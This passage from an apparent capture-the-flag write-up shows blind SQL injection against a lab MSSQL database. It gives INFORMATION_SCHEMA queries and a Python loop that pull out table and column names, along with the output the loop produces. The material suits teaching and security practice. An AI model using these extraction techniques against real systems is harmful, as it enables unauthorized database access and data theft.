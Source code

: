 Running this should give us the names of both tables.

```shell
python .\poc.py
4
flag
10
userAgents

```

## Enumerating Column Names

Out of the two tables, `flag` is the more interesting one to us here. Let's figure out what columns it has so we can start dumping data. The queries to do this will look very similar to the ones for the last one.

```sql
-- Get the number of columns in the 'flag' table
select count(column_name) from INFORMATION_SCHEMA.columns where table_name='flag' and table_catalog='digcraft';

-- Get the length of the first column name in the 'flag' table
select LEN(column_name) from INFORMATION_SCHEMA.columns where table_name='flag' and table_catalog='digcraft' order by column_name offset 0 rows fetch next 1 rows only;

-- Get the value of the first column name in the 'flag' table
select column_name from INFORMATION_SCHEMA.columns where table_name='flag' and table_catalog='digcraft' order by column_name offset 0 rows fetch next 1 rows only;

```

We can copy the for-loop from above and update the queries with the ones described just above to dump out the column names:

```python
num_columns = dumpNumber("select count(column_name) from INFORMATION_SCHEMA.columns where table_name='flag' and table_catalog='digcraft'")
print(num_columns)

for i in range(num_columns):
    column_name_length = dumpNumber(f"select LEN(column_name) from INFORMATION_SCHEMA.columns where table_name='flag' and table_catalog='digcraft' order by column_name offset {i} rows fetch next 1 rows only")
    print(column_name_length)
    column_name = dumpString(f"select column_name from INFORMATION_SCHEMA.columns where table_name='flag' and table_catalog='digcraft' order by column_name offset {i} rows fetch next 1 rows only", column_name_length)
    print(column_name)

```

And from the output, we find the name of the single column in the `flag` table.

```shell
python .\poc.py
1
4
flag

```
